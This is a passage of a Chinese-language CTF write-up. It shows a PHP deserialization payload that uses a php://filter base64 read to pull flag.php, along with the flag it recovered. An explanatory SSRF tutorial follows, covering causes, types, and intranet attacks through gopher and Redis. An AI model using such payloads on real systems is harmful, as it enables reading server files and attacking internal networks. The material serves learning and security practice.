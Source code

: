 payload为

```
?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;} 
```

![在这里插入图片描述](img/bd711e7f8c3ae56eac68e90d93c28dfc.png)
得到flag{12ffa359-defc-4dc6-b363-0b6f48c79b91}

## SSRF

1.  SSRF简介
    SSRF（Server-Side Request Forgery，服务端请求伪造），是攻击者让服务端发起构造的指定请求链接造成的漏洞。

    由于存在防火墙的防护，导致攻击者无法直接入侵内网；这时攻击者可以以服务器为跳板发起一些网络请求，从而攻击内网的应用及获取内网数据。

2.  SSRF形成原因
    大都是由于服务端提供了从其它服务器获取数据的功能，比如使用户从指定的URL web应用获取图片、下载文件、读取文件内容等。但又没有对目标地址做严格过滤与限制，导致攻击者可以传入任意的地址来让后端服务器对其发送请求，并返回对该目标地址请求的数据。

    最常见的例子：攻击者传入一个未经验证的URL，后端代码直接请求这个URL，就会造成SSRF漏洞。

3.  SSRF与CSRF的区别
    CSRF是服务器端没有对用户提交的数据进行随机值校验，且对http请求包内的refer字段校验不严，导致攻击者可以利用用户的cookie信息伪造用户请求发送至服务器；

    SSRF是服务器对用户提供的可控URL过于信任，没有对攻击者提供的URL进行地址限制和足够的检测，导致攻击者可以以此为跳板攻击内网或者其它服务器。

4.  SSRF的类型
    1）显示对攻击者的响应（basic）：在服务器获取攻击者要求的URL后，把响应发送回攻击者。
    2）不显示响应（blind）：在服务器获取攻击者要求的URL后，不会把响应内容发送给攻击者，需要通过抓包或查看服务器日志判断是否存在服务端请求伪造漏洞。

5.  利用SSRF可以实现的攻击
    1）获取web应用可达服务器的banner信息（如软件开发商、软件名称等），以及收集内网web应用的指纹识别（如开放的端口、中间件版本等），根据这些信息再进行进一步的渗透；
    2）攻击运行在内网的系统或应用程序，获取内网系统弱口令进行内网漫游，对有漏洞的内网web应用实施攻击获取webshell（如Struts2命令执行，discuz!论坛SSRF通过Redis实施getshell等）；
    3）利用有脆弱性的组件结合ftp://，file:///，gopher://，dict://等协议实施攻击（如FFmpeg任意文件读取，XXE攻击等）。

6.  拓展攻击面
    结合gopher协议攻击内网FTP、Telnet、Redis、FastCGI、Memcache，也可以进行get、post请求。